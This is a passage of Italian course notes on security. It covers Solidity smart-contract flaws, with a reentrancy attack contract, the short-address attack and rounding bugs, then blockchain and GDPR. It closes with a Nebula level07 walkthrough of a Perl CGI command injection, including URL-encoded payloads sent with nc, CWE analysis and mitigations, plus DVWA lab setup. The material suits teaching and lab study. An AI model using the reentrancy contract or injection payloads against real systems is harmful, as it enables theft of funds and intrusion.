    // address target = 0x95D34980095380851902ccd9A1Fb4C813C2cb639; // mainnet
    event Hacked(address indexed by, uint256 amount);
    event Called(address indexed by, uint256 amount);
    
    function () payable {
         Target t = Target(target);
        // let's hack.
        if (msg.gas < 200000) {
            return;
        }
        Hacked(target, target.balance);
        if (msg.value <= target.balance) {
            t.CashOut(msg.value);
        }    
    }
    
    function doIt() payable {
    
        Called(msg.sender, this.balance);
         Target t = Target(target);
         t.Deposit.value(msg.value)();
         t.CashOut(msg.value);   
    }
    
    function empty() {
        if (msg.sender == owner) {
            msg.sender.transfer(this.balance);
            
        }
    }
    
    function cashout( uint256 v) {
         Target t = Target(target);
         t.CashOut(v);   
    }
    
    function fund() payable {
         Target t = Target(target);
         t.Deposit.value(msg.value)();  
         require(this.balance > msg.value)
    }
    
    
}
\end{lstlisting}

Quando si passano i parametri ad uno smart contract, questi vengono cifrati secondo una specifica chiamata ABI (Application Binary Interface). Si possono inviare parametri cifrati anche di lunghezza minore di quella dichiarata: in questi casi la EVM aggiunge tutti 0 alla fine per raggiungere la lunghezza prevista. Tuttavia questo rappresenta un problema per applicazioni di terze parti che non validano l'input. Questo problema è stato utilizzato nello Short Address Attack all'interfaccia standard per lo scambio di token ERC20. La funzione di trasferimento di ERC20 è la seguente:
\begin{lstlisting} [language=Solidity]
function transfer(address to, uint tokens) public returns (bool success);
\end{lstlisting}
Finché vengono inviati indirizzi dello stesso ordine di grandezza di \texttt{address}, non si verificano problemi. Nel caso in cui gli indirizzi siano più piccoli, vengono aggiunti degli 0 alla fine e ciò compromette anche il valore del secondo parametro. La soluzione è quela di validare sempre l'input.

\vspace{5mm}

\texttt{Etherpot} era uno smart contract che rappresentava una lotteria, non molto diverso dal contratto \texttt{Lotto} visto nella sezione precedente. Una delle vulnerabilità di \texttt{Etherpot} era un utilizzo non corretto dei blocchi di hash, in quanto solo gli ultimi 256 blocchi di hash sono utilizzabili, cosa che è stata implementata male. Inoltre il contratto soffriva anche di valore non controllato di una chiamata, nella funzione \texttt{cash()}, riportata di seguito:
\begin{lstlisting}[language=Solidity]
...
  function cash(uint roundIndex, uint subpotIndex){ //line 80
        var subpotsCount = getSubpotsCount(roundIndex);
        if(subpotIndex>=subpotsCount)
            return;
        var decisionBlockNumber = getDecisionBlockNumber(roundIndex,subpotIndex);
        if(decisionBlockNumber>block.number)
            return;
        if(rounds[roundIndex].isCashed[subpotIndex])
            return;
        //Subpots can only be cashed once. This is to prevent double payouts
        var winner = calculateWinner(roundIndex,subpotIndex);    
        var subpot = getSubpot(roundIndex);
        winner.send(subpot);
        rounds[roundIndex].isCashed[subpotIndex] = true;
        //Mark the round as cashed
}
...
\end{lstlisting}
Quando viene effettuata la chiamata \texttt{winner.send(subpot)}, non ne viene controllato il valore di ritorno, e la riga successiva imposta un booleano indicando che al vincitore è stata inviata la vincita. Ovviamente potrebbe verificarsi una situazione in cui il trasferimento non va a buon fine (ad esempio a causa di gas insufficiente) ma comunque questo valore viene impostato in maniera errata. 

\vspace{5mm}

Alla data di questo documento (Solidity v0.4.24), non sono supportati numeri a virgola fissa o mobile. Questo vuol dire che la rappresentazione in floating point deve essere fatta tramite gli interi. Questo può portare a vulnerabilità ed errori se non implementato correttamente. Vediamo un contratto di esempio:
\begin{lstlisting}[language=Solidity]
contract FunWithNumbers {
    uint constant public tokensPerEth = 10; 
    uint constant public weiPerEth = 1e18;
    mapping(address => uint) public balances;
    function buyTokens() public payable {
        uint tokens = msg.value/weiPerEth*tokensPerEth; // convert wei to eth, then multiply by token rate
        balances[msg.sender] += tokens; 
    }
    
    function sellTokens(uint tokens) public {
        require(balances[msg.sender] >= tokens);
        uint eth = tokens/tokensPerEth; 
        balances[msg.sender] -= tokens;
        msg.sender.transfer(eth*weiPerEth); //
    }
}
\end{lstlisting}
Questo semplice contratto di acquisto/vendita di token ha dei problemi dovuti proprio nella rappresentazione di numeri con la virgola. Ad esempio, inviando un numero di token inferiore a 1 ether, la divisione darebbe 0, e quindi anche la moltiplicazione finale. Vendere 29 token risulterebbe in 2 ether. 

Una soluzione potrebbe essere quella di svolgere la divisione come \texttt{msg.sender/weiPerTokens}, e quindi il calcolo sarebbe \texttt{msg.value/weiPerEth*tokenPerEth}. Potrebbe essere utile utilizzare tipi a precisione maggiore come \texttt{uint256} per i calcoli, per poi tornare alla precisione iniziale una volta finiti i calcoli.

\vspace{5mm}

Gli indirizzi dei contratti sono deterministici, cioè possono essere calcolati prima di creare l'indirizzo. L'indirizzo di un contratto è dato da:
\begin{lstlisting}[language=Solidity]
keccak256(rlp.encode([<account_address>, <transaction_nonce>])
\end{lstlisting}
In pratica l'indirizzo di un contratto è dato dall'hash \texttt{keccak256} concatenato con il nonce della transazione dell'account. Quindi dato un indirizzo Ethereum, è possibile calcolare tutti gli indirizzi di contratto che questo indirizzo può generare. Questo singifica che è possibile inviare ether a indirizzi predeterminati e successivamente creare un contratto a quell'indirizzo il cui costruttore può inviare ether a chi lo chiama. Questo trucchetto può essere utilizzato per nascondere il proprio ether.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\begin{lstlisting}[language=Solidity]

\end{lstlisting}
\section{Blockchain e GDPR}
Per quanto la blockchain dia forti
garanzie di sicurezza, non sono più
isolati gli episodi di hackeraggio ai
danni degli Exchange Coin-to-Coin
(scambio di criptovalute).
Ad eccezione di un hardware wallet, violabili mediante un accesso
fisico, le chiavi private per accedere ai wallet possono essere soggette
ad attacchi, soprattutto phishing, alla stregua delle altre password.
Il Regolamento Generale sulla
Protezione dei Dati (GPDR) è
un regolamento dell'Unione
europea in materia di
trattamento dei dati personali
e di privacy.

\begin{figure}[htb!]
    \centering
    \includegraphics[width=8cm]{./Images/cap5/5.9.png}
\end{figure}

Nel contesto della privacy e del GDPR, le blockchain presentano varie
sfide: Come garantire i diritti del titolare dei dati immessi nella catena,
fino al diritto di cancellazione se i dati sono immutabili? Chi risponde
del trattamento dei dati in una rete di registri replicati? Il trattamento
dei dati è tecnicamente solo quello che si conclude con la chiusura del
primo blocco o è continuo?
Circa l’adeguamento della blockchain al Regolamento UE 2016/679 o
GDPR, lo scoglio apparentemente insormontabile è garantire i diritti
dell’interessato, disciplinati al capo III, negli artt. 12 – 23. La peculiarità intrinseca della blockchain della non modificabilità e
cancellazione di garantire l'integrità dei dati e aumentare la fiducia
nella rete risulta essere in forte contrasto con requisiti legali come
il “diritto di rettifica ” e il “diritto all’oblio” sanciti nell’artt. 16 e 17.

Soluzioni al diritto di oblio potrebbero essere:
\begin{itemize}
    \item la crittografia dei dati personali e la successiva eliminazione delle
corrispettive chiavi, lasciando su blockchain solo i dati indecifrabili;
    \item mediante l’uso dei cosiddetti modelli di memoria “fuori catena”;
registrare su blockchain solo un “collegamento”, lasciando il dato
vero e proprio al di fuori del libro mastro;
    \item garantire il diritto all’oblio mediante una corretta anonimizzazione.
\end{itemize}

È in corso un dibattito sul fatto che i dati archiviati in una blockchain, come chiavi pubbliche e dati
transazionali, si qualifichino come dati personali ai fini del GDPR; se i dati personali che sono stati crittografati o sottoposti a hash si
qualificano ancora come dati personali.

Le blockchain sono un particolare tipo di database di sola aggiunta che
crescono continuamente man mano che vengono aggiunti nuovi dati,
che vengono replicati su molti computer diversi. Ciò pone problemi
circa la minimizzazione dei dati e limitazione delle finalità. Cosa si intende per "scopo" del trattamento dei dati personali nel
contesto della blockchain? Si include solo la transazione iniziale o
comprende anche il trattamento continuo dei dati personali (come
la sua memorizzazione e il suo utilizzo per consenso) una volta che
è stato messo in catena. In caso di controversie, quali leggi devono essere applicate e di chi è la
giurisdizione? In situazioni in cui non è possibile identificare l’entità di
elaborazione dei dati personali e il luogo in cui i dati vengono elaborati
(probabilmente ci sono tante di queste entità e luoghi quanti sono i
nodi di rete), è difficile individuare la giurisdizione cui dovrebbe
competere una eventuale valutazione legale del trattamento dei dati
(ossia, in parole semplici, la legge nazionale applicabile).

\vspace{5mm}

Il GDPR introduce il Data Protection Officer (DPO), che deve assistere
colui che li controlla o li gestisce al fine di verificare l’osservanza interna
al regolamento. In una Blockchain, chi è il responsabile del trattamento dei dati
personali? Nel GDPR, il responsabile del trattamento determina le
finalità e i mezzi del trattamento dei dati personali. Può esistere una
simile entità nel contesto di una Blockchain distribuita?

Il modello di governance decentralizzato di Blockchain e la molteplicità
degli attori coinvolti rendono più ostica la definizione dei ruoli.
\begin{itemize}
    \item I partecipanti, che scrivono sul canale e inviano dati alla convalida
dei miners, possono essere considerati i responsabili.
    \item Qualora un gruppo di partecipanti decida di attuare un
trattamento con uno scopo comune, il responsabile va identificato
tra loro. In caso contrario, tutti i partecipanti dovrebbero essere
considerati come contitolari del trattamento (ex art. 26 GDPR).
\end{itemize}
Sicuramente non possono essere ritenuti titolari i miner, in quanto il loro operato è circoscritto alla convalida delle
transazioni, senza avere voce in merito all’oggetto di queste
transazioni, non determinando né le finalità né i mezzi da attuare; tantomeno le persone fisiche che immettono dati personali nella blockchain, al
di fuori da un’attività professionale o commerciale (cioè quando
l’attività è esclusivamente personale).

Il responsabile del trattamento andrebbe ricercato tra gli sviluppatori degli Smart Contracts, in quanto trattano i dati
personali per conto del titolare, e i minatori, poiché eseguono le istruzioni del titolare quando
verificano che la transazione soddisfano i criteri tecnici.
Entrambi dovrebbero quindi definire, con il titolare del trattamento, un
contratto che specifichi gli obblighi di entrambe le parti e che incorpori
le disposizioni dell’articolo 28 del GDPR.

Per quanto riguarda l’ambito degli obblighi di Privacy by Design
(articolo 25), il titolare del trattamento deve pensare, in via
preliminare, alla pertinenza della scelta di questa tecnologia per
l’attuazione del suo trattamento.
Qualsiasi transazione sulla blockchain implica:
\begin{itemize}
    \item l’invio di una richiesta a tutti i minatori blockchain per la convalida
di una transazione (contenente potenzialmente dati personali);
    \item un aggiornamento della blockchain aggiungendo il nuovo blocco
nella catena di blocchi a tutti i partecipanti.
\end{itemize}
In aggiunta i partecipanti, possono essere ubicati in paesi al di fuori
dell’UE sollevando la questione della conformità con gli obblighi di
trasferimento extra UE (capo V GDPR).

Per quanto riguarda l’identificabilità, la blockchain ha il vantaggio che
ogni partecipante ha un identificativo costituito da una serie di
caratteri alfanumerici apparentemente casuali e non identificabili con
reali identità. Quanto ai dati aggiuntivi memorizzati sulla blockchain,
nel caso in cui si tratti di dati personali, essi dovrebbero essere
registrati preferibilmente in modalità crittografata.
È necessario determinare le finalità del trattamento e la valutazione
d’impatto (DPIA), al fine di identificare come perseguibile l’uso di
blockchain pubbliche, private, con o senza cifratura del contenuto dei
blocchi, così da dimostrare i rischi residui di una scelta tecnologica e la
loro accettabilità.
La blockchain non è una tecnologia ma è una classe di tecnologie e
l’esame di compatibilità con il GDPR va effettuato caso per caso.

Attualmente, è allo studio una duplice linea d’azione per risolvere i
problemi tra blockchain e GDPR:
\begin{itemize}
    \item Le istituzioni dovrebbero condurre un'attività di
orientamento regolatorio (una sorta di
interpretazione autentica) di alcuni principi del
GDPR per renderli applicabili alla tecnologia
blockchain.
    \item I fornitori di servizi blockchain potrebbero studiare
congiuntamente con le istituzioni dei codici di
condotta e sistemi di certificazione delle catene a
seconda dei settori di produzione nei quali la
tecnologia è applicata.
Ciò sarebbe condotto in maniera similare al Cloud
computing conduct code, ed è previsto dallo stesso
GDPR (artt. 40 e 42).
\end{itemize}


\chapter{Iniezione remota}
L'iniezione remota, come fa presagire il termine, avviene mediante un vettore di attacco remoto. È caratterizzata dalla presenza di due asset: un asset client che invia richieste e un asset server che riceve richieste, elabora e invia risposte. I dati delle richieste e delle risposte sono trasmessi tramite protocollo TCP/IP (quasi sempre TCP/IPv4). I dati delle richieste contengono iniezioni per un specifico linguaggio, ad esempio shell e SQL. I dati delle richieste sono ricevuti tramite un protocollo applicativo e inoltrati ad altri asset tramite un altro protocollo applicativo. 

\section{Nebula Level 07}
\textit{"The flag07 user was writing his very first
Perl program that allowed him to ping hosts
to see if they were reachable from the Web
server."}

Lo script in questione si chiama \texttt{index.cgi} e ha il seguente percorso: \texttt{/home/flag07/index.cgi}. Come al solito l'obiettivo della sfida è l'esecuzione del programma \texttt{/bin/getflag} con i privilegi dell'utente \texttt{flag07}. Costruiamo un albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.8 \textwidth]{./Images/cap6/6.1.png}
\end{figure}
\FloatBarrier

L'utente \texttt{level07} può accedere solamente alle directory \texttt{/home/level07} e \texttt{/home/flag07}. La prima non contiene materiale interessante, mentre la seconda contiene file di configurazione di bash e altri due file molto interessanti: \textbf{index.cgi} e \texttt{thttpd.conf}. Visualizziamo i metadati di \texttt{index.cgi}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -l /home/flag07/index.cgi
-rwxr-xr-x 1 root root ... /home/flag07/index.cgi
\end{lstlisting}
\end{mdframed}

Il file è leggibili ed eseguibile da tutti gli utenti e modificabile solo da root, inoltre non è SETUID. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{index.cgi}
\begin{minted}[baselinestretch=1.0]{perl}
#!/usr/bin/perl
use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
   $host = $_[0];
   print("<html><head><title>Ping results</title></head><body><pre>");
   @output = `ping -c 3 $host 2>&1`;
   foreach $line (@output) { 
      print "$line"; 
   }
   print("</pre></body></html>");
}

# check if Host set. if not, display normal page, etc
ping(param("Host"));
\end{minted}
\end{mdframed}

L'interprete dello script è il file binario eseguibile \texttt{/usr/bin/perl}, ossia l'interprete Perl. Importa il modulo \texttt{CGI.pm}, contenente le funzioni d aiuto nella scrittura di uno script CGI. Il modulo CGI effettua il parsing dell'input e rende disponibile ogni valore attraverso la funzione \texttt{param()}. Stampa su STDOUT l'instestazione HTTP "content-type", che definisce il tipo di documento servito (HTML). \texttt{sub ping\{...\}} definisce la funzione ping, mentre la variabile \texttt{\$host} riceve il valore del primo parametro della funzione. Poi stampa l'intestazione HTML della pagina. L'array "output" riceve tutte le righe dell'output del comando successivo e per ogni linea di output stampa quella linea. Poi stampa i tag di chiusura della pagina HTML. Infine invoca la funzione \texttt{ping} con argomento pari al valore del parametro "Host" della query string HTTP. 

Lo script \texttt{index.cgi} riceve input da un argomento \texttt{Host=IP} (se invocato tramite linea di comando) oppure da una richiesta \texttt{GET /index.cgi?Host=IP} se invocato tramite un server Web. Poi crea uno scheletro di pagina HTML, esegue il comando \texttt{ping -c 3 IP 2>\&1} che invia 3 pacchetti \texttt{ICMP ECHO\_REQUEST} all'host il cui indirizzo è IP (e redirige eventuali errore su STDOUT). Inserisce poi l'output nella pagina HTML. Eseguiamo lo script in locale tramite il passaggio diretto dell'argomento \texttt{HOST=IP}: autentichiamoci come utente \texttt{level07} e digitiamo \texttt{/home/flag07/index.cgi Host=8.8.8.8} (DNS pubblico di Google che funziona sempre).

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag07/index.cgi Host=8.8.8.8
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}
Se ci autentichiamo come utente \texttt{level07} e proviamo ad invocare:
\begin{center}
    \texttt{/home/flag07/index.cgi Host=8.8.8.8; /bin/getflag}
\end{center}
viene eseguito anche \texttt{/bin/getflag}, ma non con i privilegi di \texttt{flag07}. Notiamo che questo comando che abbiamo appena dato provoca l'esecuzione sequenziale di due comandi da parte dell'interprete BASH: \texttt{index.cgi} con argomento pari a \texttt{Host=8.8.8.8} e \texttt{/bin/getflag}. Non si tratta di iniezione locale: infatti un'iniezione locale sarebbe del tipo:
\begin{center}
    \texttt{/home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"}
\end{center}
Se invochiamo questo comando \texttt{getflag} sembra che non venga manco eseguito. Per capire cosa non ha funzionato bisogna approfondire la conoscenza di \texttt{param()}. Leggendo la\ documentazione\footnote{\href{https://metacpan.org/pod/CGI\#Calling-CGI.pm-routines}{https://metacpan.org/pod/CGI\#Calling-CGI.pm-routines}} scopriamo una cosa interessante:

\vspace{5mm}

\textit{"Pass the \texttt{param()} method a single argument
to fetch the value of the named parameter.
When calling \texttt{param()} if the parameter is
multivalued, you can ask to receive an array.
Otherwise the method will return
the first value."
}

\vspace{5mm}

Nel comando \texttt{/home/flag07/index.cgi "Host=8.8.8.8; /bin/getflag"} l'argomento contiene un riferimento a due parametri, tuttavia lo script \texttt{index.cgi} estrae solo il valore di \texttt{Host} e lo assegna alla variabile \texttt{\$host}, quindi \texttt{/bin/getflag} non viene iniettato. Leggendo la documentazione scopriamo anche un'altra cosa interessante:

\vspace{5mm}

\textit{"WARNING:
calling \texttt{param()} in list context can lead to
vulnerabilities if you do not sanitise user input
as it is possible to inject other param keys
and values into your code.. ."}

\vspace{5mm}

Nel comando che abbiamo digitato sono stati usati due caratteri speciali, ovvero \texttt{;} per delimitare i campi e \texttt{/} per separare le directory. Leggiamo la definizione dei caratteri speciali negli URL\footnote{\href{https://tools.ietf.org/html/rfc3986.html}{https://tools.ietf.org/html/rfc3986.html}}. La procedura di escape dei caratteri speciali in un URL prende il nome di \textbf{URL encoding}. Dato il carattere speciale, si individua il suo codice ASCII, lo si scrive in esadecimale e gli si prende il carattere di escape (\%).

\begin{table}[htbp!]
\centering
\begin{tabular}{|l|l|l|} 
\hline
\textbf{Carattere}                   & ;    & /     \\ 
\hline
\textbf{Codice ASCII in base 10}     & 59   & 47    \\ 
\hline
\textbf{Codice ASCII in esadecimale} & 3B   & 2F    \\ 
\hline
\textbf{Codifica URL encoded}        & \%3B & \%2F  \\
\hline
\end{tabular}
\end{table}
\FloatBarrier

L'input corretto da inviare allo script \texttt{index.cgi} prevede l'URL encoding dei caratteri speciali. Tentiamo nuovamente l'attacco digitando il comando a cui è stato fatto l'escape dei caratteri:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ /home/flag07/index.cgi "Host=8.8.8.8%3B%2Fbin%2Fgetflag"
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

L'iniezione locale non ha l'effetto sperato. Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width=0.8 \textwidth]{./Images/cap6/6.2.png}
\end{figure}
\FloatBarrier

L'iniezione locale ha funzionato, ma \texttt{index.cgi} non ha i privilegi di esecuzione di \texttt{flag07}. È possibile un'iniezione remota con lo stesso input dell'iniezione locale? Bisogna identificare un server web che esegua \texttt{index.cgi} SETUID \texttt{flag07}. Se un server di questo tipo esiste, l'input appena usato permette l'esecuzione di \texttt{/bin/getflag} con i privilegi di \texttt{flag07}, vincendo così la sfida.

Visualizziamo i metadati di \texttt{thttpd.conf}:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -l /home/flag07/thttpd.conf
-rw-r-r-- 1 root root ... /home/flag07/thttpd.conf
\end{lstlisting}
\end{mdframed}
Il file \texttt{thttpd.conf} è leggibile da tutti gli utenti e modificabile solo da root. Identifica il server web sotto cui esegue \texttt{index.cgi}. Dalla lettura di \texttt{thttpd.conf} otteniamo queste informazioni:
\begin{itemize}
    \item \texttt{port=7007}: il server web \texttt{thttpd} ascolta sulla porta 7007 
    \item \texttt{dir=/home/flag07}: la directory radice del server web è \texttt{/home/flag07} 
    \item \texttt{nochroot}: il server web vede l'intero file system dell'host
    \item \texttt{user=flag07}: il server web esegue con i diritti dell'utente dell'utente \texttt{flag07}
\end{itemize}
Si può contattare il server web sulla porta TCP 7007 (vettore di accesso remoto). Il server web vede l'intero file system, quindi anche il file eseguibile \texttt{/bin/getflag}. Inoltre esegue come utente \texttt{flag07}, il che permette a \textbf{/bin/getflag} l'esecuzione con successo. Per poter effettuare l'iniezione remota, verifichiamo che il server web \texttt{thttpd} sia effettivamente in esecuzione sulla porta 7007:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ pgrep -l httpd
803 thttpd
806 thttpd
$ netstat -ntl | grep 7007
tcp6      0     0   :::7007    :::*    LISTEN
\end{lstlisting}
\end{mdframed}
Quindi esistono processi di nome \texttt{httpd}, c'è un processo che ascolta sulla porta TCP 7007, e inoltre c'è da notare che troveremo il server web sulla porta 7007 solo se non sarà trascorso troppo tempo dall'avvio di Nebula. In ogni caso da queste informazioni deduciamo che c'è un processo in ascolto sulla porta 7007, ma non vi è una prova del fatto che il processo in ascolto sia proprio \texttt{httpd}. Per verificare che il processo in ascolto su questa porta sia proprio \texttt{httpd} servono i privilegi di root: l'opzione \texttt{-p} di \texttt{netstat} stampa il PID e il nome del processo server in ascolto sulla porta. Ma l'utente attaccante non ha i privilegi di root, quindi non può usare questo comando. È necessario interagire direttamente con il server web per avere la certezza che il processo in ascolto sulla porta 7007 sia proprio \texttt{httpd}. È possibile inviare richieste al server (e ricevere le relative risposte) tramite il comando \texttt{nc <hostname> <port>}. Leggiamo il manuale per i dettagli con \texttt{man nc}. L'hostname da usare è uno qualunque su cui ascolta il server. Dal precedente output di \texttt{netstat} si evince che \texttt{thttpd} ascolta su tutte le interfacce di rete (\texttt{:::}). Quindi vanno bene nomi associati a questi IP: 127.0.0.1 (localhost) oppure l'IP assegnato all'interfaccia di rete. Proviamo:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET / HTTP/1.0

HTTP/1.0 403 Forbidden
Server: thttpd/2.25b 29dec2003
...
\end{lstlisting}
\end{mdframed}
L'accesso a \texttt{/} è proibito, ma scopriamo che il server è effettivamente \texttt{httpd}. Connettiamoci allora al server e invochiamo lo script con input URL encoded, vincendo la sfida:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
You have successfully executed getflag on a target account
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}

\subsection{La vulnerabilità}
Anche qui la vulnerabilità appena vista si verifica solo se diverse debolezze sono presenti e sfruttate contemporaneamente.

\subsubsection{Debolezza 1}
Il web server \texttt{httpd} esegue con privilegi di esecuzione ingiustamente elevati (quelli dell'utente privilegiato \texttt{flag07}). La CWE di riferimento è la \textbf{CWE-250 - Execution with Unnecessary Privileges}. 

\subsubsection{Debolezza 2}
Se un'applicazione web che esegue comandi non neutralizza i caratteri speciali è possibile iniettare nuovi caratteri in cascata ai precedenti. La CWE di riferimento è la \textbf{CWE-78 - Improper Neutralization of Special Elements used in an OS Command (OS Command Injection)}.

\subsection{Mitigazione 1}
Possiamo riconfigurare \texttt{thttpd} in modo che esegua con privilegi di un utente inferiore, ad esempio \texttt{level07}. Innanzitutto verifichiamo che il file \texttt{/home/flag07/thttpd.conf} sia quello effettivamente usato dal server web:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ps ax | grep thttpd
...
803 ? Ss 0:00 /usr/sbin/thttpd -C /home/flag07/thttpd.conf
\end{lstlisting}
\end{mdframed}

Creiamo una nuova configurazione nella home directory dell'utente \texttt{level07}: diventiamo root tramite l'utente \texttt{nebula}. Copiamo \texttt{/home/flag07/thttpd.conf} nella home directory di \texttt{level07}:
\begin{center}
    \texttt{cp /home/flag07/thttpd.conf /home/level07}
\end{center}
Aggiorniamo poi i permessi dei file:
\begin{center}
    \texttt{chown level07:level07 /home/level07/thttpd.conf}
    
    \texttt{chmod 644 /home/level07/thttpd.conf}
\end{center}

Editiamo il file \texttt{thttpd.conf}, impostando una porta di ascolto TCP non in uso, ad esempio la 7008, dopodiché impostiamo la directory radice del server con \texttt{dir=/home/level07} e infine impostiamo l'esecuzione come utente \texttt{level07}, con \texttt{user=level07}. Copiamo poi \texttt{/home/flag07/index.cgi} nella home directory di \texttt{level07}:
\begin{center}
    \texttt{cp /home/flag07/index.cgi /home/level07}
\end{center}
e poi aggiorniamo i permessi dello script:
\begin{center}
    \texttt{chown level07:level07 /home/level07/index.cgi}
    
    \texttt{chmod 0755 /home/level07/index.cgi}
\end{center}
Eseguiamo poi manualmente una nuova istanza del server:  \texttt{thttpd -C /home/level07/thttpd.conf}. A questo punto ripetiamo l'attacco sul server web appena avviato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7008
GET /index.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

<html><head><title>Ping results</title></head><body><pre>PING 8.8.8.8 (8.8.8.8)
56 (84) bytes of data.
64 bytes from 8.8.8.8: icmp_req=1 ttl=46 time=23.0 ms
64 bytes from 8.8.8.8: icmp_req=2 ttl=46 time=22.5 ms
64 bytes from 8.8.8.8: icmp_req=3 ttl=46 time=22.6 ms

--- 8.8.8.8 ping statistics ---
3 packets trasmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/mac/mdev= 22.585/22.743/23.030/0.267 ms
getflag is executing on a non-flag account, this doesn't count
</pre></body></html>
$
\end{lstlisting}
\end{mdframed}
Osserviamo che \texttt{/bin/getflag} non riceve più i privilegi di \texttt{flag07}.

\subsection{Mitigazione 2}
Possiamo implementare nello script Perl un filtro dell'input basato su blacklist: se l'input non ha la forma di un indirizzo IP viene scartato silenziosamente. La strategia basata su whitelist è differente: se l'input è uno di N noti viene accettato, altrimenti viene scartato. Il nuovo script \texttt{index-bl.cgi} esegue le seguenti operazioni:
\begin{itemize}
    \item memorizza il parametro \texttt{Host} un una variabile \texttt{\$host}
    \item fa il match di \texttt{\$host} con un'espressione regolare che rappresenta un indirizzo IP
    \item controlla se \texttt{\$host} verifica l'espressione regolare: se sì, esegue \texttt{ping}, altrimenti non esegue nulla.
\end{itemize}
Un'espressione regolare Perl per il match di indirizzi IP è la seguente:
\begin{center}
    \begin{lstlisting}
    ^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}$
    \end{lstlisting}
\end{center}
L'espressione regolare è semplice ma non precisa, infatti l'input 999.999.999.999 viene accettato anche se non corrisponde ad un indirizzo IP. È possibile sfruttare il difetto del filtro per iniettare comandi? Sembra di no, perché il filtro stronca ogni input con struttura diversa da un indirizzo IP. Quindi il carattere speciale "\texttt{;}" usato per iniettare comandi di shell viene ignorato.

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{index-bl.cgi}
\begin{minted}[baselinestretch=1.0]{perl}
#!/usr/bin/perl use
CGI qw{param};

print "Content-type:
text/html\n\n";

sub ping {
   ...
}
# check if Host set. if not, display normal page, etc
my $host = param("Host");
if ($host =~ /^\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\$/)
{ 
   ping($host);
}
\end{minted}
\end{mdframed}

Apriamo un altro terminale e ripetiamo l'attacco sul server web appena avviato:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ nc localhost 7007
GET /index-bl.cgi?Host=8.8.8.8%3B%2Fbin%2Fgetflag
Content-type: text/html

$
\end{lstlisting}
\end{mdframed}
Osserviamo che \texttt{/bin/getflag} non viene più eseguito.


\section{Damn Vulnerable Web Application}
DVWA è scaricabile sottoforma di archivio zip o di macchina virtuale. Scarichiamo l'immagine ISO DVWA-1.0.7.iso e importiamola in VirtualBox. Prima di avviare DVWA, da \textit{Impostazioni > Rete} impostiamo la connessione a !Scheda con bridge"; Wi-Fi. Dopo aver avviato DVWA, ricaviamo il suo IP tramite il comando \texttt{ifconfig}. I servizi vulnerabili di DVWA sono acceduti tramite un'altra macchina attaccante, che deve avere un browser web e un emulatore terminale. Impostiamo per la macchina attaccante la stessa configurazione di rete usata per DVWA (scheda con bridge). Successivamente usiamo il browser della macchina attaccante per connetterci al server wev di DVWA:: digitiamo \href{http://DVWA-IP/login.php}{http://DVWA-IP/login.php}, dive DVWA-IP indica l'IP della macchina virtuale DVWA. Veniamo rediretti alla pagina di login di DVWA, a cui si accede tramite le credenziali \texttt{admin} e \textbf{password}. La pagina iniziale di DVWA contiene informazioni, puntatori alle pagine vulnerabili e meccanismi di difesa. Offre poi tre livelli di difesa nei suoi script, selezionabili cliccando su "Script Security" (Low, Medium, High). Per il momento scegliamo Low. DVWA offre anche un sistema di rilevazione delle intrusioni scritto in PHP (PHPIDS), che monitora le richieste e crea 